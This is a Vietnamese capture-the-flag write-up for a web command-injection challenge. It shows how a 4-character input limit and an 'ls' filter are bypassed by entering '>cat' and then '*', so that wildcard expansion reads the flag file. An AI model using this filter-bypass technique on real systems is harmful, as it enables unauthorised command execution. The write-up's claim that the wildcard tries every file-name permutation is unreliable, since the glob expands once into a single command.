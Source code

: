 # Command Injection

**Tên challenge:** Command Limit Length

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/command-limit-length)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Trang Web cho phép người quản trị thực thi lệnh hệ thống để giám sát từ xa. Tuy nhiên để đảm bảo cho hệ thống an toàn, lập trình viên đã chặn rất nhiều tập lệnh và độ dài của chuỗi nhập vào cũng bị giới hạn. Quả thật, không ai có thể vượt qua cơ chế bảo mật này!

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng nhập Command như sau:

![alt text](./images/image.png)

**B2:** Ta thử nhập `id`:

![alt text](./images/image-1.png)

**B3:** Ta thử nhập lệnh `whoami` thì phát hiện trang Web chỉ cho nhập tối đa 4 ký tự:

![alt text](./images/image-2.png)

**B4:** Ta tiếp tục nhập lệnh `ls` thì phát hiện trang Web đã filter lệnh `ls`:

![alt text](./images/image-3.png)

**B5:** Trong Linux thì ngoài lệnh `ls` thì ta vẫn có thể dùng lệnh `dir` như trên Windows để view file:

![alt text](./images/image-4.png)

Do Website chỉ cho phép nhập tối đa 4 ký tự nên ta không thể dùng lệnh `cat *` để đọc `Flag` được.

Sau khi tìm hiểu thì ta tìm được cách Bypass Challenge này.

Cụ thể, ta tiến hành thí nghiệm sau trong Linux, giả sử ta có 1 folder rỗng như sau:
```
$> ls -la
total 11
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
```
Sau đó, ta sẽ tạo 1 file `test.txt` có nội dung là `hello`
```
$> ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
-rw-r--r-- 1 root root    5 Nov 25 09:10 test.txt

$> cat test.txt
hello
```
Tiếp đến, ta sẽ thử tạo 1 file có tên là `cat` với nội dung là rỗng thông qua lệnh:
```
$> >cat

$> ls -la
total 13
drwxr-xr-x 2 root root 4096 Nov 25 09:13 .
drwxr-xr-x 9 root root 4096 Nov 25 09:09 ..
-rw-r--r-- 1 root root    0 Nov 25 09:34 cat
-rw-r--r-- 1 root root    5 Nov 25 09:10 test.txt
```
Cuối cùng, ta sẽ thử sự kỳ diệu của dấu `Wildcard` ( `*` ):
```
$> *
hello
```

**Giải thích:**
* Khi ta nhập dấu `*` trong Linux thì bạn hãy tưởng tượng nó sẽ lấy tất cả các file đưa vào chung 1 mảng ( **VD:** `[cat, flag.txt, abc.txt]` ).
* Sau đó, Linux sẽ ghép tất cả các file vào với nhau. ( **VD:** `cat flag.txt`, `cat abc.txt`, `flag.txt cat`, `flag.txt abc.txt`, `abc.txt cat`, `abc.txt flag.txt`, `cat flag.txt abc.txt`, ... ), thì điểm ta muốn lợi dụng ở đây là lệnh `cat flag.txt`, thì khi nó thực thi lệnh này thì nó sẽ trả về kết quả file `flag.txt` cho ta.

**B6:** Ta bắt đầu làm giống như thí nghiệm trên, đầu tiên ta tạo file `cat` thông qua lệnh `>cat`:

![alt text](./images/image-5.png)

Dù lệnh là `COMMAND NOT FOUND` nhưng khi ta dùng lệnh `dir`:

![alt text](./images/image-6.png)

=> Ta đã tạo thành công được file `cat`

**B7:** Ta bắt đầu nhập dấu `*` vào input:

![alt text](./images/image-7.png)

=> Vậy là ta đã thành công đọc được `Flag`.

<u>**Đọc thêm:**</u> https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-4-chars